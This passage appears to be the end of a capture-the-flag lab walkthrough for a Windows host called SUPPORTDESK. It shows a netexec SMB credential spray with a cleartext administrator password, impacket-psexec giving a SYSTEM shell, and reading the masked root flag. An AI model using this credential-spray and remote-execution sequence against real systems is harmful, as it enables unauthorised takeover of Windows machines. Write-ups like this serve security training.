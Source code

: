 `netexec smb 10.10.10.149 -u ./users.txt -p '4dD!5}x/re8]FBuZ'`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\administrator:4dD!5}x/re8]FBuZ (Pwn3d!)🚀
```

`impacket-psexec 'administrator:4dD!5}x/re8]FBuZ@10.10.10.149'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.149.....
[*] Found writable share ADMIN$
[*] Uploading file jTcqhyxz.exe
[*] Opening SVCManager on 10.10.10.149.....
[*] Creating service eGtC on 10.10.10.149.....
[*] Starting service eGtC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.437]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
🐚

![Victim: system](https://custom-icon-badges.demolab.com/badge/Victim-system-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
nt authority\system
```

`dir C:\Users\Administrator\Desktop`:
```
 Volume in drive C has no label.
 Volume Serial Number is FA65-CD36

 Directory of C:\Users\Administrator\Desktop

02/18/2021  04:00 PM    <DIR>          .
02/18/2021  04:00 PM    <DIR>          ..
01/09/2025  02:28 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,444,301,824 bytes free
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
9023e***************************🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
